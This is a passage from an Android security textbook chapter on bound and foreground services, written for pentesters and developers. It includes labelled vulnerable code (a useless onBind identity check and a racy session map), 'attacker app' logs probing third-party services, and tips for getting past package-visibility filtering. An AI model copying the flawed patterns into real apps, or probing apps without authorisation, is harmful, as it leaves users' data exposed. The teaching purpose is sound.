> common reason a tester wrongly concludes a service is reachable.

#### The bind flags

`bindService`'s third argument is a bit field, and the bits change lifetime, priority and semantics.
The ones that matter:

| Flag | Value | Effect |
|---|---|---|
| `BIND_AUTO_CREATE` | `0x0001` | Create the service if it does not exist. **Without this, binding to a service that is not already running does nothing** and you will sit waiting for a callback that never comes |
| `BIND_DEBUG_UNBIND` | `0x0002` | Keep a stack trace of the bind, to make "Service not registered" errors debuggable |
| `BIND_NOT_FOREGROUND` | `0x0004` | Do not raise the target to foreground scheduling priority |
| `BIND_ABOVE_CLIENT` | `0x0008` | Treat the service as **more** important than the client — kill the client first |
| `BIND_ALLOW_OOM_MANAGEMENT` | `0x0010` | Let the service be killed under memory pressure as if unbound |
| `BIND_WAIVE_PRIORITY` | `0x0020` | Do not affect the target's priority at all. A "look but do not prop up" bind |
| `BIND_IMPORTANT` | `0x0040` | The client cannot function without the service; raise it to the client's own priority band |
| `BIND_ADJUST_WITH_ACTIVITY` | `0x0080` | Tie the service's importance to the client Activity's visibility |
| `BIND_NOT_PERCEPTIBLE` | `0x0100` | API 29+. The binding is not user-perceptible; allows a lower band |
| `BIND_INCLUDE_CAPABILITIES` | `0x1000` | API 29+. **Pass the client's while-in-use capabilities (location, camera, microphone) through to the service.** Security-relevant: this is capability delegation |
| `BIND_EXTERNAL_SERVICE` | `0x80000000` | Bind an `android:externalService` service so it runs **under the client's UID and is charged to the client**. §3.14.3 |

> **🔍 Pentester's Note**
> `BIND_INCLUDE_CAPABILITIES` is worth grepping for. It means "while I have permission to use the
> microphone because I am in the foreground, so does the process I am binding". If the bound service
> belongs to a *different* app, the client has just lent a while-in-use capability across a UID
> boundary. That is legitimate and intended — and it is also exactly the shape of a confused-deputy
> chain. Ask what the bound service does with it.

#### `onBind` is cached — and cached by `Intent` *filterEquals*, not by client

This surprises people and it changes how you test.

The framework keeps an `IntentBindRecord` per `ServiceRecord` **per distinct Intent**, where
"distinct" means `Intent.filterEquals()` — action, data URI, type, package, component and categories.
Extras are **not** part of that comparison.

Consequences:

- The second client to bind with a filter-equal Intent does **not** cause `onBind` to be called
  again. It receives the cached `IBinder`.
- Putting per-client state in `onBind` based on extras is therefore broken: the first client's
  extras decide what every subsequent client gets.
- `onUnbind` is called when the **last** client for a given `IntentBindRecord` disconnects. If it
  returns `true`, the framework will call `onRebind` instead of `onBind` next time.

> **🔬 Under the Hood**
> This is why a service that tries to hand out a *per-caller* capability object from `onBind` is
> always wrong. Client A binds with `action=OPEN`, gets a capability scoped to A. Client B binds with
> `action=OPEN`, and the framework hands B **A's object**, without calling your code at all. The
> correct pattern is a single stateless `IBinder` whose methods each check
> `Binder.getCallingUid()`. §3.10 and §5.3.2.

### 3.4 The three things `onBind` can return

#### 3.4.1 A local `Binder`

```java
public class LocalService extends Service {
    public class LocalBinder extends Binder {
        LocalService getService() { return LocalService.this; }
    }
    private final IBinder binder = new LocalBinder();
    @Override public IBinder onBind(Intent i) { return binder; }
}
```

The client casts the received `IBinder` to `LocalBinder` and calls `getService()`. This works because
`IBinder.queryLocalInterface()` — see [25 §3.2](../25-Binder/README.md) — short-circuits when the
object is in the same process, so no marshalling happens and you get the real Java object back.

**Cross-process this fails with a `ClassCastException`**, because what arrives is a `BinderProxy`, not
your class. That is not a security control; it is an accident of the mechanism. Do not treat "we use
a local binder" as an argument that a service is unreachable — a foreign client that does not cast
can still call `transact()` on it directly, and if the developer overrode `onTransact` on that
`Binder` subclass, those transaction codes are live.

#### 3.4.2 A `Messenger`

```java
public class CmdService extends Service {
    static final int MSG_SET_PIN = 1;
    private final Handler handler = new Handler(Looper.getMainLooper()) {
        @Override public void handleMessage(Message msg) {
            switch (msg.what) {
                case MSG_SET_PIN: savePin(msg.getData().getString("pin")); break;
            }
        }
    };
    private final Messenger messenger = new Messenger(handler);
    @Override public IBinder onBind(Intent i) { return messenger.getBinder(); }
}
```

`Messenger` is a wrapper around a `Handler`. Internally it holds an `IMessenger` — itself an AIDL
interface with exactly one method, `send(Message)` — whose implementation posts the `Message` to the
`Handler`'s `Looper`. [24 — IPC §3.5](../24-IPC/README.md) gives the threat-model table; the internals
are here.

Three properties follow directly from "it is a Handler":

1. **Every message is handled on one thread**, in arrival order. No two `handleMessage` calls ever
   overlap. You cannot have a data race between two clients.
2. **It is asynchronous.** `Messenger.send()` returns immediately. There is no return value. To get
   an answer, the client puts its own `Messenger` in `msg.replyTo` and the service sends a message
   back.
3. **The framework fills in `msg.sendingUid`** from the Binder caller UID before `handleMessage`
   runs (API 21+), and `msg.sendingPid` from API 29. These are the correct fields to check, and
   almost nobody checks them.

> **⚠️ Warning**
> `msg.replyTo` is an **attacker-supplied `Messenger`**. It is a Binder handle that the caller chose.
> A service that answers a query by sending the result to `msg.replyTo` is sending data to whoever
> the caller nominated — which need not be the caller. That is a delegated-capability leak of exactly
> the kind [26 — Intent](../26-Intent/README.md) covers for `PendingIntent`.

#### 3.4.3 An AIDL `Stub`

```java
// IVaultService.aidl
interface IVaultService {
    String  getAuthToken();          // transaction code 1
    void    setSyncEndpoint(String url);   // transaction code 2
    boolean isUnlocked();            // transaction code 3
}
```

The AIDL compiler generates one Java file containing three things: the interface, a `Stub` abstract
class that extends `Binder` and implements the interface, and a `Proxy` inner class that implements
the interface by writing parcels. [25 §6.1](../25-Binder/README.md) owns the anatomy of that generated
code; what matters here is the *service semantics*:

- Method order in the `.aidl` file **is** the transaction code order, starting at
  `IBinder.FIRST_CALL_TRANSACTION` = `0x00000001`. Reorder the file and you break every client that
  was not recompiled.
- The generated `Stub.onTransact` calls `data.enforceInterface(DESCRIPTOR)` before dispatching. A
  caller who does not write the exact descriptor string gets
  `SecurityException: Binder invocation to an incorrect interface`. **This is anti-confusion, not
  access control** — the descriptor is a public string that anyone can write, and §5.2 shows it being
  written by an attacker in four lines.
- `Stub.asInterface(IBinder)` returns the *real object* when the binder is local, and a `Proxy` when
  it is remote. So a bug that only appears under real marshalling never shows up in unit tests.

### 3.5 AIDL versus `Messenger` versus a raw `Binder` — the comparison that matters

| | Local `Binder` | `Messenger` | AIDL |
|---|---|---|---|
| Works cross-process | Only via raw `transact` | Yes | Yes |
| Typed | Yes (same process) | No — `int what` plus a `Bundle` | Yes |
| Synchronous return value | Yes (same process) | **No** — reply via `replyTo` | Yes |
| Threading | Caller's thread (same process) | **One `Handler` thread, serialised** | **Binder thread pool, concurrent** |
| Reentrant | n/a | No | **Yes** |
| Caller identity available | `Binder.getCallingUid()` in `onTransact` | `msg.sendingUid` | `Binder.getCallingUid()` per method |
| Boilerplate | Almost none | Small | Generated |
| Right choice when | Only your own process binds it | Simple command channel, low volume, you want serialisation for free | You need typed RPC, return values, or throughput |

#### 3.5.1 The concurrency difference is a real bug source

This is the part that deserves more than a table row.

A `Messenger` posts to a `Looper`. There is exactly one thread. `handleMessage` for message 2 cannot
begin until `handleMessage` for message 1 has returned. Shared state inside the handler needs no
locking at all.

An AIDL `Stub` is dispatched by the **Binder thread pool** — a pool of threads inside your process
that `IPCThreadState` maintains, with a default maximum of 15 additional threads plus the main thread
(see [25 §3.15](../25-Binder/README.md)). Two clients calling two methods land on two different
threads, simultaneously. The same client calling the same method twice from two of its own threads
also lands on two threads.

So the following AIDL implementation, which is correct-looking and which people write constantly, is
broken:

```java
// BROKEN under AIDL. Perfectly safe under Messenger.
private final Map<String, Session> sessions = new HashMap<>();

@Override public String openSession(String user) {
    Session s = sessions.get(user);
    if (s == null) {                    // <-- thread A checks
        s = new Session(user);          // <-- thread B checks, also sees null
        sessions.put(user, s);          // <-- both put; one Session is orphaned
    }
    return s.id();
}
```

Two clients, or one client with two threads, produce two `Session` objects where the code assumes
one. In a security context, the classic form of this is a **rate limiter or a nonce store** that can
be raced, or an "is this caller authorised" flag that is set on one thread and read on another. That
is a genuine vulnerability class and it is invisible to a static reading that assumes one caller.

> **🔬 Under the Hood**
> **AIDL is also reentrant, and this is the subtler half.** If your service, while handling a call
> from client A, makes an outgoing Binder call — to `system_server`, or to a callback A registered —
> the thread blocks waiting for a reply. If the remote side calls **back into your service** on that
> same logical transaction chain, the kernel will deliver it to *the same blocked thread*, because
> Binder keeps a transaction stack and prefers to reuse the thread that is already waiting. Your code
> re-enters while holding whatever locks it took. This is how deadlocks and inconsistent-state bugs
> appear in service implementations that look single-threaded. `Messenger` cannot do this, because
> the message is queued and the thread returns.

Practical consequence for a developer, and the sentence to put in a report:

> If your service holds any mutable state that more than one call touches, either synchronise it
> properly, or use `Messenger` and accept the serialisation. Choosing AIDL because it is "the proper
> way" and then writing single-threaded code is choosing a concurrency model by accident.

Practical consequence for a tester: **if the target exposes AIDL and keeps state, try calling it
concurrently.** Two threads in a loop is enough. This finds bugs that no amount of sequential probing
will.

### 3.6 What `bindService`'s return value actually tells you — measured

Four distinct outcomes are possible, and three of them look similar from the client's side. All four
were produced on the API 30 test device by the prober in
[`examples/attacker-app/`](examples/attacker-app/ProbeActivity.java).

| Outcome | `bindService` returns | Exception | `onServiceConnected` | What it means |
|---|---|---|---|---|
| Success | `true` | none | **fires** | You have a handle |
| `onBind` returned `null` | `true` | none | **never fires** | The service accepted you and deliberately gave you nothing (API 28+ calls `onNullBinding`) |
| Permission denied | `false` | **`SecurityException`** | never | The `android:permission` gate refused you |
| Package not visible | `false` | **none at all** | never | API 30+ package-visibility filtering. Indistinguishable from "no such component" |

The verbatim measurement (package names of assessed third-party apps
[pseudonymised](../72-RealWorldFindings/references/README.md); platform and OEM packages are real):

```text
# adb logcat -s CH28 -- attacker uid 10291, API 30, Redmi M2101K6P
BIND-RETURN com.android.keychain/com.android.keychain.KeyChainService => true
BIND-RETURN org.ifaa.aidl.manager/org.ifaa.aidl.manager.IfaaService => true
BIND-RETURN com.tencent.soter.soterserver/com.tencent.soter.soterserver.SoterService => true
BIND-RETURN com.android.settings/.wifi.MiuiWifiService => false
    SecurityException: Not allowed to bind to service
    Intent { cmp=com.android.settings/.wifi.MiuiWifiService }
BIND-RETURN com.miui.analytics/com.miui.analytics.AnalyticsService => true

CONNECTED org.ifaa.aidl.manager/...IfaaService  descriptor='org.ifaa.aidl.manager.IfaaManagerService'
CONNECTED com.tencent.soter.soterserver/...SoterService  descriptor='com.tencent.soter.soterserver.ISoterService'
CONNECTED com.miui.analytics/...AnalyticsService  descriptor='com.miui.analytics.ICore'
# note: KeyChainService returned true and NEVER connected -- its onBind returned null
```

Three things a tester should take from that block.

**`KeyChainService` returned `true` and never connected.** Its `onBind` only returns a binder for a
specific action; we sent a bare component Intent, so it returned `null`. Had we recorded only the
`bindService` return value we would have reported a reachable service that we could not, in fact,
reach. **Always wait for `onServiceConnected` before claiming reachability.**

**The permission refusal is loud.** `SecurityException: Not allowed to bind to service` names the
component. That is a positive result — you have learned the component exists and is gated.

**The interface descriptor is free.** `getInterfaceDescriptor()` on the returned binder gives you the
AIDL interface name with no APK, no decompilation and no guessing. `com.miui.analytics.ICore` is a
better starting point for reverse engineering than anything a manifest would have told you.

#### 3.6.1 Package visibility silently breaks service testing — measured

This is the most important practical fact in the chapter for anyone testing on API 30 or later, and
it is a controlled experiment rather than an assertion.

Same prober, same target, same device. Only the manifest changed.

```text
# Prober targetSdk=30, NO <queries> and NO QUERY_ALL_PACKAGES
BIND-RETURN com.vendor.fileexplorer/com.google.firebase.iid.FirebaseInstanceIdService => false
# no exception, no logcat entry, no denial anywhere

# Same prober, one line added: <uses-permission android:name="android.permission.QUERY_ALL_PACKAGES"/>
BIND-RETURN com.vendor.fileexplorer/com.google.firebase.iid.FirebaseInstanceIdService => true
CONNECTED  ... descriptor=''
BIND-RETURN com.vendor.shortvideo/com.vendor.shortvideo.common.firebase.MyFirebaseMessagingService => true
CONNECTED  ... descriptor=''
```

From API 30, an app whose `targetSdk` is 30 or higher cannot see most other apps' packages unless it
declares `<queries>` or holds `QUERY_ALL_PACKAGES`. A filtered package behaves as if it does not
exist: `bindService` returns `false`, throws nothing, and logs nothing.

> **🔍 Pentester's Note**
> If your attacker app's `bindService` returns `false` with no exception, **that is very probably
> package visibility, not a security control**, and you are about to write "not reachable" in a
> report about a service that is wide open. Give your test harness `QUERY_ALL_PACKAGES`, or a
> `<queries>` block naming the target, and re-run. Note in the report that a real attacker would do
> the same — `QUERY_ALL_PACKAGES` is available to any app, and a `<queries>` entry naming one target
> package needs no permission at all. Package visibility is an anti-*enumeration* measure. It is not
> an access control, and it should never be cited as a mitigation.

Note the empty descriptors in the second run. `descriptor=''` means the returned object is a raw
`Binder`, not an AIDL `Stub` — nothing enforces an interface token, so every transaction code is
reachable with an empty parcel. [25 §3.9](../25-Binder/README.md) explains why that is the
interesting case.

### 3.7 The `onBind` identity trap — measured

A caller check has to be in the right place. This is the wrong place, and the measurement shows
exactly how wrong.

```java
// VULNERABLE — this check does nothing at all
@Override public IBinder onBind(Intent intent) {
    if (Binder.getCallingUid() != Process.myUid()) return null;   // always false!
    return binder;
}
```

Measured on the device, with an attacker at uid 10291 binding a service at uid 10310:

```text
# adb logcat -s CH28VAULT   (the SERVICE's own log, uid 10310)
CH28VAULT: onBind intent=Intent { cmp=com.example.notesvault/.VaultService } callingUid=10310

# adb logcat -s CH28        (the ATTACKER's log, uid 10291)
CH28: probe uid=10291 pid=19831
CH28: BIND-RETURN com.example.notesvault/com.example.notesvault.VaultService => true
```

The service saw `callingUid=10310` — **its own UID** — while the actual caller was 10291.

Why: `onBind` is dispatched by `ActivityThread.handleBindService` on the service's main thread, in
response to a `scheduleBindService` message from `system_server`. There is no client transaction in
flight at that moment. `IPCThreadState`'s calling identity has already been cleared and restored, so
`Binder.getCallingUid()` falls back to `Process.myUid()`. See [25 §3.11](../25-Binder/README.md) for
the mechanism; the consequence is local to services.

> **⚠️ Warning**
> The same applies to `onStartCommand`, `onCreate`, `onUnbind`, `onRebind` and `onDestroy`. **None
> of the `Service` lifecycle callbacks run inside the caller's Binder transaction.** Any identity
> check in any of them is checking the app against itself. The only place `Binder.getCallingUid()`
> is meaningful is **inside a method of the `IBinder` you returned** — an AIDL `Stub` method, an
> `onTransact` override, or `Handler.handleMessage` via `msg.sendingUid`.

There is one narrow, deliberate exception worth knowing so you do not over-correct: `onStartCommand`
can learn who started it, but not from `Binder.getCallingUid()`. From API 30 there is no general
public API for this either; apps that need it either require the caller to put its package name in
an extra (unauthenticated, and therefore useless as a control) or use a `PendingIntent` supplied by
the caller, whose creator identity *is* authenticated. See [26 — Intent](../26-Intent/README.md) for
how `PendingIntent` carries identity.

### 3.8 Where the caller check *must* go

```java
// CORRECT — per method, inside the Stub, on the Binder thread
private final IVaultService.Stub binder = new IVaultService.Stub() {
    @Override public String getAuthToken() {
        enforceSameSignature();          // runs INSIDE the transaction
        return tokenStore.get();
    }
    @Override public void setSyncEndpoint(String url) {
        enforceSameSignature();
        if (!isHttpsHostAllowed(url)) throw new IllegalArgumentException("bad endpoint");
        prefs.edit().putString("endpoint", url).apply();
    }
};

private void enforceSameSignature() {
    int uid = Binder.getCallingUid();
    if (uid == Process.myUid()) return;
    if (getPackageManager().checkSignatures(Process.myUid(), uid)
            != PackageManager.SIGNATURE_MATCH) {
        throw new SecurityException("uid " + uid + " is not same-signature");
    }
}
```

Measured, with the check in place removed for the demonstration in §5.3.1 and present here:

```text
CH28VAULT: getAuthToken() called by uid=10291 pid=19831
```

The service now sees the true caller. That number came from the kernel and cannot be forged — the
proof is in [25 — Binder](../25-Binder/README.md), where three separate forgery attempts against
`sender_euid` all failed.

Four rules for writing the check, in order of importance:

1. **Use `Binder.getCallingUid()`, not `getCallingPackage()` or a package name in an extra.** The UID
   is what the kernel authenticated. A package name is a claim.
2. **Check in every method, not once.** There is no shared entry point; each transaction code
   dispatches straight to its method.
3. **Handle `sharedUserId`.** Several packages can share one UID, so `checkSignatures` on the UID is
   the right granularity, and `getPackagesForUid()` can return more than one name. See
   [21 §5.2](../21-App-Sandbox/README.md).
4. **Do not use `clearCallingIdentity()` around the check.** That is the confused-deputy factory;
   [25 §3.12](../25-Binder/README.md) owns it. If you must clear identity to do privileged work,
   capture the UID *first*, then clear, then restore in a `finally`.

### 3.9 The recommendation this chapter owes chapter 27

[27 — ContentProviders §5.5](../27-ContentProviders/README.md) documents `ContentProvider.call()`
being used as a general-purpose RPC entry point, and correctly calls it a vulnerability class. But
the developers who do that are not being lazy for no reason — they have a real requirement, and if
your report says only "stop using `call()`" they will move the same unprotected switch statement
somewhere else. This section is the answer you owe them.

**Why they reached for `call()`.** The provider already existed. `call()` needs no manifest change,
no AIDL file, no build configuration, no client-side connection management, and it is synchronous
with a return value. Defining a bound service felt like ten times the work for the same outcome.

**What is actually wrong with it**, stated as engineering rather than scolding:

| Problem with `call()`-as-RPC | Why it matters |
|---|---|
| No schema. The contract is a `String` method name and a `Bundle` | A reviewer reading the manifest cannot see the API exists at all. Neither can a scanner |
| No types. Everything is `Bundle` marshalling by hand | Every argument is unvalidated by construction |
| No per-method identity story | One `call()` implementation must hand-roll authorisation for every method inside a `switch` |
| Provider lifetime | A provider is created on first access and lives for the process; you cannot express "this API is only available while bound" |
| Discovery is trivial for an attacker and impossible for a reviewer | Method names survive obfuscation because they are compared as strings — see 27 §5.5 |

**The replacement, and the migration.** A bound service with an AIDL interface gives you exactly what
they wanted plus the things they lost:

```java
// The recommendation, as code the developer can paste.
// 1. Declare the interface. This file IS the schema the call() version never had.
//    IRemoteConfig.aidl
interface IRemoteConfig {
    String getApiVersion();
    ConfigResult fetchConfig(in ConfigQuery query);
}
```

```xml
<!-- 2. Declare the service NOT exported, with a signature-level permission if a
        sibling app really must reach it. Both, not either. -->
<permission android:name="com.example.permission.REMOTE_CONFIG"
            android:protectionLevel="signature"/>

<service android:name=".RemoteConfigService"
         android:exported="true"
         android:permission="com.example.permission.REMOTE_CONFIG"/>
```

```java
// 3. Enforce per method anyway. The manifest permission is a coarse gate;
//    this is the one that survives a manifest-merge accident.
private final IRemoteConfig.Stub impl = new IRemoteConfig.Stub() {
    @Override public String getApiVersion() {
        enforceSameSignature();
        return "3";
    }
    @Override public ConfigResult fetchConfig(ConfigQuery q) {
        enforceSameSignature();
        Objects.requireNonNull(q, "query");
        return configEngine.run(q.sanitised());
    }
};
```

What the developer gains, said in their language rather than a security team's:

- **The `.aidl` file is a reviewable contract.** A code review can see the whole remote surface in
  twelve lines. With `call()`, the surface was distributed across a `switch` statement.
- **Typed arguments.** `ConfigQuery` is a `Parcelable` with fields, not a `Bundle` of hope. Invalid
  input fails at unmarshalling rather than three layers down.
- **`Binder.getCallingUid()` per method**, in the one place it works.
- **Lifetime control.** The service exists while bound. `unbindService` tears it down; a provider
  cannot be torn down.
- **`oneway` where it belongs.** Methods that do not need a reply can be declared `oneway` and stop
  blocking the caller — a performance property `call()` cannot express at all.

And the honest caveats, because a recommendation with no cost is not a recommendation:

- AIDL is more code, and versioning it across two independently-shipped apps requires discipline.
  Method order is the wire format; appending is safe, reordering is not.
- Binding is asynchronous. A caller that needs an answer *right now*, once, at startup, genuinely has
  a harder time with `bindService` than with `call()`.
- If the two apps ship together and are signed with the same key, the honest answer to "which of
  these is safer" is **neither, if the permission is right**. A `signature`-level permission on a
  provider is a perfectly good control. The AIDL recommendation earns its keep when the surface is
  more than one or two methods, when arguments are structured, or when the client set is not fully
  under the developer's control.

> **🔍 Pentester's Note**
> When you write this up, put the migration cost in the report. "Replace `call()` with AIDL" is a
> two-day task for a real app, and a finding that does not acknowledge that gets deprioritised. A
> finding that says "here is the 12-line `.aidl`, here are the three call sites, here is the
> permission declaration" gets fixed.

### 3.10 `foregroundServiceType` and what "foreground" actually means

#### The bargain

A foreground service is a **contract with the user**: the app gets a process the system will not
casually kill, and the user gets a non-dismissable notification saying so. Neither half is optional.
`startForeground(id, notification)` must be called with a real `Notification`, and if the notification
is removed the service loses foreground status.

```java
@Override public int onStartCommand(Intent i, int f, int id) {
    NotificationChannel ch = new NotificationChannel(
            "sync", "Sync", NotificationManager.IMPORTANCE_LOW);   // API 26+
    getSystemService(NotificationManager.class).createNotificationChannel(ch);
    Notification n = new Notification.Builder(this, "sync")
            .setContentTitle("Syncing")
            .setSmallIcon(R.drawable.ic_sync)
            .build();
    startForeground(1, n);       // API 34+: startForeground(1, n, FOREGROUND_SERVICE_TYPE_DATA_SYNC)
    return START_STICKY;
}
```

#### Is a foreground service actually in the foreground?

No, and the name is the single most misleading identifier in the Android API.

"Foreground" here is a statement about **process importance**, not about the screen. A foreground
service has no UI, does not receive input, and does not appear in the recents list. The word means
`ProcessList.FOREGROUND_APP_ADJ`-adjacent scheduling and out-of-memory priority — see
[19 — Memory](../19-Memory/README.md) for how `oom_adj` works. A user who has just switched to
another app still has your "foreground" service running.

#### `foregroundServiceType`

Introduced in API 29 as an optional declaration of *why* the service runs; made mandatory for
`targetSdk` 34+ in Android 14.

| Type | Constant | Notes |
|---|---|---|
| `dataSync` | `FOREGROUND_SERVICE_TYPE_DATA_SYNC` | API 29. **API 34 gives it a runtime time limit**; deprecated in favour of `WorkManager` |
| `mediaPlayback` | `..._MEDIA_PLAYBACK` | API 29 |
| `phoneCall` | `..._PHONE_CALL` | API 29 |
| `location` | `..._LOCATION` | API 29. While-in-use rules apply |
| `connectedDevice` | `..._CONNECTED_DEVICE` | API 29 |
| `mediaProjection` | `..._MEDIA_PROJECTION` | API 29. Screen capture |
| `camera` | `..._CAMERA` | API 30. While-in-use rules apply |
| `microphone` | `..._MICROPHONE` | API 30. While-in-use rules apply |
| `health` | `..._HEALTH` | API 34 |
| `remoteMessaging` | `..._REMOTE_MESSAGING` | API 34 |
| `shortService` | `..._SHORT_SERVICE` | API 34. Hard ~3-minute cap, cannot be a `while-in-use` type |
| `specialUse` | `..._SPECIAL_USE` | API 34. Requires a `<property>` justification string that Play review reads |
| `systemExempted` | `..._SYSTEM_EXEMPTED` | API 34. System apps only |
| `mediaProcessing` | `..._MEDIA_PROCESSING` | API 34 |

From API 34, each type also requires its own permission — `FOREGROUND_SERVICE_DATA_SYNC`,
`FOREGROUND_SERVICE_CAMERA`, and so on — and starting a service with a type the app has not declared
throws.

> **⚠️ Warning — measured, and it contradicts what a tester might expect**
> **On API 30, `dumpsys activity services` does not print `foregroundServiceType` at all.** A grep of
> the full dump on the test device returned zero occurrences of the string, while foreground services
> were plainly running:
>
> ```text
> # adb shell dumpsys activity services | grep -nE "isForeground|foregroundServiceType"
> 714:    isForeground=true foregroundId=10 foregroundNoti=Notification(channel=MiShare ...)
> 1547:   isForeground=true foregroundId=1  foregroundNoti=Notification(channel=id_notification_center ...)
> 2693:   isForeground=true foregroundId=20006 foregroundNoti=Notification(channel=securitycenter_... )
> 3148:   isForeground=true foregroundId=1  foregroundNoti=Notification(channel=id_notification_center ...)
> ```
>
> If you are testing on API 30 and want the declared types, you must read them from the **manifest**,
> not from `dumpsys`. On newer releases the field does appear in the dump. Do not write "the app
> declares no foreground service types" on the basis of a `dumpsys` grep on an old device.

#### The security shape of foreground services

| Concern | Reality |
|---|---|
| Persistence | A foreground service is the supported way to keep a process alive indefinitely. Malware uses exactly the API Spotify uses |
| Notification suppression | The notification can be made minimally visible: `IMPORTANCE_MIN` channel, no title, an icon that mimics a system glyph. It cannot be removed, but it can be made unnoticeable |
| Type mismatch | An app declaring `mediaPlayback` while doing location work is lying to the platform. From API 34 the type is enforced against the permission, which closes some of this |
| `startForegroundService` DoS | The 5-second promotion deadline means an exported service started via `startForegroundService` that fails to promote will **crash the target app**. §5.3.6 |
| Battery/forensics | `dumpsys activity services` retains `startForegroundCount` and creation timestamps, which is a useful timeline artefact |

### 3.11 `isolatedProcess` — the service semantics

[21 — App Sandbox §3.7](../21-App-Sandbox/README.md) owns the sandbox mechanics: the throwaway UID,
the empty permission set, no network, no data directory, the `isolated_app` SELinux domain. It is
also unambiguous that this is a **positive finding** when you see it in a target. This chapter agrees
and does not restate the mechanics; what belongs here is what `isolatedProcess` means *as a service*.

#### It is bind-only, in practice

An isolated process has no permissions and no data. The only way to give it anything is over the
Binder connection you established, so the useful pattern is always: `bindService` with
`BIND_AUTO_CREATE`, hand it a `ParcelFileDescriptor` for the untrusted input, get a result back.
`startService` on an isolated service is legal but nearly useless — you have started something that
cannot read the file you wanted it to parse.

#### The isolated UID ranges — measured

```text
# adb shell ps -A -o PID,USER,LABEL,NAME | grep isolated     (API 30, Redmi M2101K6P)
 4550 u0_i0     u:r:isolated_app:s0:c512,c768  com.android.chrome:sandboxed_process0:...SandboxedProcessService0:0
11259 u0_i9003  u:r:isolated_app:s0:c512,c768  com.google.android.webview:sandboxed_process0:...:0
21453 u0_i9046  u:r:isolated_app:s0:c512,c768  com.google.android.webview:sandboxed_process0:...:0

# adb shell cat /proc/4550/status | grep -E "^(Uid|Gid|Groups)"
Uid:    90000   90000   90000   90000
Gid:    90000   90000   90000   90000
Groups:
# and for 11259 / 21453
Uid:    99003   99003   99003   99003
Uid:    99046   99046   99046   99046
```

Three facts fall straight out of that.

**Both ranges are live on one device at one time.** 90000 is the App-Zygote range
(`useAppZygote="true"`), 99000+ is the ordinary isolated range. Chrome's renderer came from an app
Zygote; WebView's two did not. So "which range is it in" is a usable signal for whether an app
Zygote is in play.

**`Groups:` is empty.** No supplementary groups at all — which is precisely why there is no network:
`INTERNET` is group membership in `AID_INET` (3003), and this process is in no groups. See
[21 §3.9](../21-App-Sandbox/README.md).

**The SELinux categories are `s0:c512,c768` for every isolated process**, not the per-app MCS pair
that `untrusted_app` gets. That is a flat, shared category set: isolated processes are separated from
apps, and much less from each other. Do not tell a client that two isolated processes are MCS-isolated
from one another on this build — measure it.

#### `externalService` — the service that runs as its client

```xml
<service android:name=".RenderService"
         android:isolatedProcess="true"
         android:externalService="true"
         android:exported="true"/>
```

`android:externalService="true"` plus a client binding with `Context.BIND_EXTERNAL_SERVICE` produces
an unusual arrangement: the service's code comes from the **provider** app, but the process is
created under the **client's** UID and charged to the client's memory budget. It is how WebView's
renderer is associated with your app rather than with the WebView provider.

Security reading, in both directions:

- **For the provider:** you are shipping code that will execute in a process the client controls the
  lifetime of. Nothing of yours goes with it — no data dir, no permissions — but your code's bugs
  become the client's problem.
- **For the client:** you are executing somebody else's code, in a process attributed to you. It is
  isolated, so it has none of *your* privileges either. This is safe by design, and the design is the
  point.

> **🔍 Pentester's Note**
> `externalService="true"` on a service that is **not** `isolatedProcess="true"` is a genuine finding
> worth chasing. The combination is unusual; the platform intends them together. Read the service's
> code and ask what it does with client-controlled input while running under a UID that is not the
> author's.

### 3.12 Why your service got killed

Testers get asked this by developers constantly, and the honest answer needs three mechanisms, not
one.

| Cause | Mechanism | Evidence to look for |
|---|---|---|
| Low memory | `lmkd` (the low-memory killer daemon) kills by `oom_adj` band. A bound-by-a-visible-Activity service sits high; an idle started service sits low | `logcat` line from `lowmemorykiller`, or `dumpsys activity processes` showing `adj` |
| User swiped the task away | The service is destroyed unless `android:stopWithTask="false"` | `onTaskRemoved()` is called first, if overridden |
| Background execution limits | API 26+: an app in the background for a while has its background services stopped | `ActivityManager` log "Stopping service due to app idle" |
| OEM battery manager | Vendor-specific. On the MIUI test device, "battery saver" policy terminates background processes aggressively and independently of AOSP rules | Vendor logs; often nothing at all |
| It stopped itself | `stopSelf()` with an outstanding second `startId` — §3.2 | `onDestroy` runs while work is queued |
| Crash | An uncaught exception in `onStartCommand` on the main thread | The stack trace, obviously |

> **🔍 Pentester's Note**
> The OEM row is not a footnote. On the MIUI device used here, vendor power management is a genuine
> confound during dynamic testing: a service you started can vanish for reasons unrelated to
> anything you did. When a lab step says "the service should still be running", and it is not,
> re-run it with the app in the foreground before concluding you have found a behaviour.

### 3.13 Accessibility services — the largest privilege a manifest line can grant

This is the abuse surface the rest of the repository points here for. It is framed for both sides:
what it legitimately is, and what it becomes.

#### What it is

An `AccessibilityService` is an app component the **system** binds in order to describe the screen to
a user who cannot see it, and to act on that user's behalf. It is the mechanism behind screen
readers, switch access, and voice control. It is not a hack; it is how Android is usable by people
with disabilities, and any discussion that treats it purely as malware infrastructure is wrong.

```xml
<service android:name=".ReaderService"
         android:exported="true"
         android:permission="android.permission.BIND_ACCESSIBILITY_SERVICE">
    <intent-filter>
        <action android:name="android.accessibilityservice.AccessibilityService"/>
    </intent-filter>
    <meta-data android:name="android.accessibilityservice"
               android:resource="@xml/accessibility_config"/>
</service>
```

```xml
<!-- res/xml/accessibility_config.xml — this file is where the power is declared -->
<accessibility-service xmlns:android="http://schemas.android.com/apk/res/android"
    android:accessibilityEventTypes="typeAllMask"
    android:accessibilityFeedbackType="feedbackGeneric"
    android:accessibilityFlags="flagReportViewIds|flagRetrieveInteractiveWindows|flagRequestFilterKeyEvents"
    android:canRetrieveWindowContent="true"
    android:canRequestFilterKeyEvents="true"
    android:canPerformGestures="true"
    android:notificationTimeout="100"/>
```

`android:permission="android.permission.BIND_ACCESSIBILITY_SERVICE"` is **not a permission the app
requests**. It is a declaration that only a caller holding that permission may bind — and the only
holder is the system. It is the standard pattern for "the system binds me, nobody else may".

#### What it grants

| Capability | Enabled by | What it means concretely |
|---|---|---|
| Read all on-screen text | `canRetrieveWindowContent` + `flagRetrieveInteractiveWindows` | Every field in every app, including other apps' password fields unless they are excluded, and the contents of notifications |
| Observe every event | `accessibilityEventTypes="typeAllMask"` | Window changes, focus, text edits — a keystroke-granularity view of typing in many apps |
| Perform gestures | `canPerformGestures` (API 24+) | Synthesise taps and swipes anywhere on screen. This is full UI control |
| Perform global actions | `performGlobalAction()` | Back, Home, Recents, notification shade, power dialog |
| Filter key events | `canRequestFilterKeyEvents` | See and consume hardware key presses |
| Read view IDs | `flagReportViewIds` | Target specific widgets reliably across versions |

Together those are: **read the screen, and drive the screen.** There is no permission dialog that
conveys this; the user enables it in Settings, under Accessibility, with a warning dialog that most
users read as boilerplate.

#### How it is abused

